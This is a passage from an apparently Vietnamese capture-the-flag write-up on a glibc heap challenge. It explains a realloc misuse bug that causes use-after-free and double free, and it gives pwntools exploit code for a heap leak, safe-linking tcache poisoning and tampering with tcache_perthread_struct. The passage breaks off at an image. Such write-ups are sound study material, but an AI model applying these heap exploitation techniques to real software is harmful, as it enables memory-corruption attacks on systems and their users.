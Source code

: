Tóm gọn lại ta có : 
```c 
realloc(NULL,size) -> malloc(size)
realloc(p,0) -> free(p)
realloc(p,old_size)        # nothing
```
Hàm edit không check size của user nhập vào. Không clear pointer khi size=0 -> tạo `overlapping chunk` -> `use after free` và `double free` bug.

Gọi `realloc(mlist[0],0x78)` -> `realloc(mlist[0],0)` -> `realloc(mlist[1],0x78)` ta được 2 pointer `mlist[0]` và `mlist[1]` overlap.
```python 
def Edit(idx: int,size: int,memo: bytes,sendline=True):
    p.sendlineafter(b">",b"1")
    p.sendlineafter(b"Index:",f"{idx}".encode())
    p.sendlineafter(b"Size:",f"{size}".encode())
    if size>1:
        p.sendafter(b"Memo:",memo)
    sleep(0.5)
def List():
    p.sendlineafter(b">",b"2")
Edit(0,0x78,b"A"*8)
Edit(0,0,0)
Edit(1,0x78,b"A"*8)
```
Gọi lại `realloc(mlist[0],0)` ta được `mlist[0]` và `mlist[1]` đều cùng trỏ vào `tcachebins[0x80][0]`.
List để in `mlist[1]` ra ta leak được heap.

```python
List()
p.recvuntil(b"[1] ")
first_chunk=int(p.recv(5)[::-1].hex(),16)
first_chunk = (first_chunk << 12) +0x290
log.info(f"{hex(first_chunk)}")
tcache_perthread_struct=first_chunk-0x290
```
Ghi đè mlist[0].fd trỏ vào `tcache_perthread_struct* tcache chunk`, ta control được counts và entries.

```python
Edit(1,0x78,p64(0)*2)
Edit(0,0,0)
Edit(1,0x78,p64(((first_chunk+0x10) >> 12 ) ^ (tcache_perthread_struct+0x10))+p64(0))
Edit(2,0x78,b"A"*8)
```
`tcache chunk` có size là 0x290, ghi đè count của `tcachebins[0x290]` thành 7 -> `realloc(tcache,0x78)` ta được unsorted bin.

```python 
Edit(3,0x78,p16(7)*58) #pop mlist[3] ra khỏi tcachebin[0x290]
Edit(3,0x78,p16(0)*6+p16(7)) # realloc(tcache,0x78)
```
![](https://i.imgur.com/O0SewS4.png)
